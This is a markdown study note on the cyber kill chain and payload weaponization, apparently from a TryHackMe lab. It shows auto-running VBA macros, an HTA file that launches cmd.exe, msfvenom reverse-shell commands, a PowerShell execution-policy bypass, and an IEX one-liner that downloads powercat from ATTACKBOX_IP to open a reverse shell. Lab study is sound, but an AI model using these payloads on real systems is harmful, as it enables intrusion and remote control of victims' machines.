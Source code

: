 # Cyber kill chain


The cyberkill chain (in () is the MITRE ATT&CK)
1) Recon (recon) 
	- Obtain information on the target 	Harvesting emails, OSINT

2) Weaponization (Execution)
	- Creating payloads etc. Exploit with backdoor, malicious office document

3) Delivery (intial access)
	- How the payload will be delievered. Email, web, USB

4) Explotation (initial access)
	- Exploit the target's system to execute code 	MS17-010, Zero-Logon, etc.

5) Installation (persistence)
	- Install malware or other tooling 	Mimikatz, Rubeus, etc.

6) Command & control (C2)
	- Control the compromised asset from a remote central controller 	Empire, Cobalt Strike, etc.

7) Action on objectives (Exfiltration/impact)
	- Any end objectives: ransomware, data exfiltration, etc. 	Conti, LockBit2.0, etc.

## Weaponization

This involves creating payloads to be run on the target machine to get initial access.

### Windows Scripting Host

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a windows native engine cscript.exe for command line scripts and wscript.exe for GUI which are responsbile for executing various windows basic scripts including vbe and vbs. Scripts are ran at the same permission level as the compromised user.

To create a simple payload using VBscript

```
Dim message
message ="hello"
MsgBox message
```

Dim declares a variable. The variable is then assigned a value and then the MsgBox function called with the variable.

THe code can be saved to a file with a .vbs extension and run using wscript.

```wscript payload.vbs``` 

Using VBscript to run exe files

```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

this runs the windows calculator.

If wscript is not allowed then can use ```cscript.exe <filename>.vbs```
Also can also name the file as .txt and use an argument in wscript ```/e:VBScript``` to make it run as an vbs script.

```wscript /e:VBScript payload.txt```

### HTA

HTML applications are dynamic html pages with containing Jscript and VBScript and are executed by the mshta binary. They can be executed by web browser or on their own. They allow you to create a downloadable file that takes all the information regarding how it is displayed and rendered. 

An example of payload.
```
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

save to a .hta file, load a python webserver on attacking machine and get the victim machine to open the file.

Can also create a hta reverse shell payload using msfvenom

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f hta-psh -o thm.hta```

or use metasploit using ```exploit/windows/misc/hta_server``` and visting the url provided by metasploit

### Visual Basic for Applications (VBA)

Programming language for microsoft word/excel/powerpoint etc to allow automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are custom function written in VBA code to automate certain tasks in the applications. VBA can access the windows api and other lower level functionality. 

creating macros in word
1) open word
2) go to view -> macros
3) Give the macros a name
4) Click on macros in document 
4) Click create
5) create payload

An example of a payload
```
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

This payload will run as soon as the document is opened

6) Run the payload by clicking run.
7) Save the word document as a macro-enabled format such as .doc or .docm

Examples of other more useful payloads

```
Sub Document_Open()
  calc
End Sub

Sub AutoOpen()
  calc
End Sub

Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

Dim declares payload as a string. CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload.

Creating a payload with msfconsole to get a rev shell.
1) create payload with msfvenom ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=1 LPORT= -f vba ```
**msfvenom will automatically use excel workbooks. To use word change Workbook_Open to Document_Open**
2) Create a word document like before with the macro from msfvenom
3) Open msfconsole and start multi/handler
4) wait for rev shell

### Powershell

Powershell is a OOP language executed from the Dynamic Language Runtime in .NET. To run powershell scripts

```powershell -File <file_name>```

However the execution policy will stop this from being run. To check the execution policy

```Get-ExecutionPolicy```

There are two ways to bypass execution policy, first is to change it globally for our user by turining it off 
```Set-ExecutionPolicy -Scope CurrentUser RemoteSigned```

or to run the file ignoring the execution policy

```powershell -ex bypass -File <name>.ps1```

Powercat is a ps1 script that can give us a revshell

1) Get it onto the machine, Can be done using http.server or smb from impacket
2) Start listerner
3) Run powercat (the first part of the command will get the file over http from attacking machine. If already on machine only execute after ;)
```powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACK_IP -p PORT -e cmd"```